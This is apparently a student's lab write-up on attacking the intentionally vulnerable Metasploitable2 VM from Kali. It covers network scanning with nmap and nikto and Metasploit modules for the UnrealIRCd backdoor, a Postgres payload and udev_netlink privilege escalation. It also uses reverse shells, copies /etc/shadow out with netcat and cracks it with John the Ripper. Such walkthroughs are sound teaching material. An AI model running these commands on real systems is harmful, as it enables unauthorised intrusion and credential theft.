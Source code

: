# SoftwareSec-Metasploitable2

## Overview

Attempt to get a shell onto a remote system (Metasploitable2) and extract its password and shadow files for password cracking. Using SSH to verify results.

## Set Ups

#### Virtual Box

Set up a local nat network

File > Preferences > Network > add Nat Network

#### Kali

Settings > Network > Attach to > Nat Network

update: ```$apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y```

#### Metasploitable

Settings > Network > Attach to > Nat Network

username: msfadmin

password: msfadmin

## Procedure

### Network discovery

Finding your own IP

```$ifconfig```

Discovering other IPs on your network

```$nmap -sP 10.0.2.0/24```

After finding target on network, run ```nmap``` for ports and services discover

```$nmap <Target IP>```

Notice that there is an HTTP server running, use ```nikto``` to find vulnerabilities. Default port is 80

```nikto -h <Target IP>```

```nikto``` returns a list of vulnerabilities for the server. Google these vulnerabilities and their potention exploits

Running Metasploit frameworks. Either use the fast access side bar in Kali or Applications > 08 - Exploitation > Metasploit Frameworks.

The first time starting metasploit will take a little bit as it needs to initialize a database.  

### Finding Exploits 

Notice that there is an IRC service running on port 6667 during our nmap port scan. 

https://www.cvedetails.com/cve/cve-2010-2075

https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor

There is a backdoor exploit we can use. To search for a unix irc exploit. 

```search type:exploit platform:unix irc```

returns ```exploit/unix/irc/unreal_ircd_3281_backdoor```

To use the exploit:

```use exploit/unix/irc/unreal_ircd_3281_backdoor```

Set the target host:

```set RHOST <Target IP>```

Show available payloads

```show payloads```

There is a reverse tcp payload. We can learn more about it with 

```info cmd/unix/reverse```

To use the payload

```set payload cmd/unix/reverse```

We need to set some options such as LHOST

```show options```

```set LHOST <Local IP>```

Run the exploit

```exploit```

We now have a shell on the remote system. We can check that we're root with ```whoami```. We can also check our IP with ```ifconfig```. What we really want are the password hashes in the shadow file located in /etc/shadow.

```cd /etc/```

We will just ```netcat``` to transfer the file to our local machine from the stolen shell.

On local machine

```nc -lp 1234 > shadow```

On shell

```cat shadow | nc <Local IP> 1234```

We can now crack those passwords with john the ripper. Simply copy the shadow file into a hash.txt

```cp shadow hash.txt```

Run john

```john hash.txt```

We can also run john with its many built in wordlists.

```john -wordlist=/usr/share/wordlists/rockyou.txt hash.txt```

Once the process is done, we can check our cracked passwords

```john -show hast.txt```

We should now have credentials for users on the remote machine. We can verify our passwords are correct using SSH

```ssh username@<TargetIP>```

Extra: Meterpreter - For Stealth, Flexibility, and Reliablity. ```help``` command

Postgress exploit

https://www.cvedetails.com/cve/cve-2007-3280

https://www.rapid7.com/db/modules/exploit/linux/postgres/postgres_payload

```use exploit/linux/postgres/postgres_payload```

```show options```

```set payload linux/x86/meterpreter/reverse_tcp```

```set LHOST <Local IP>```

```set RHOST <Target IP>```

```set PASSWORD postgres```

```exploit```

We have a meterpreter as the postgres user. But we can elevate our priviledge to root

https://www.cvedetails.com/cve/cve-2009-1185

https://www.rapid7.com/db/modules/exploit/linux/local/udev_netlink

```meterpreter> background``` Note the session ID

```use exploit/linux/local/udev_netlink```

```show options```

```set SESSION <ID of meterpreter>```

```exploit```

We now have root privildege with Meterpreter.

### Sources

#### Downloads

https://www.virtualbox.org/

https://www.kali.org/

https://metasploit.help.rapid7.com/docs/metasploitable-2

#### References

https://metasploit.help.rapid7.com/v1/docs/exploitation

https://metasploit.help.rapid7.com/docs/metasploitable-2-exploitability-guide

https://docs.kali.org/general-use/starting-metasploit-framework-in-kali

https://tools.kali.org/information-gathering/nmap

https://tools.kali.org/information-gathering/nikto

https://tools.kali.org/password-attacks/john
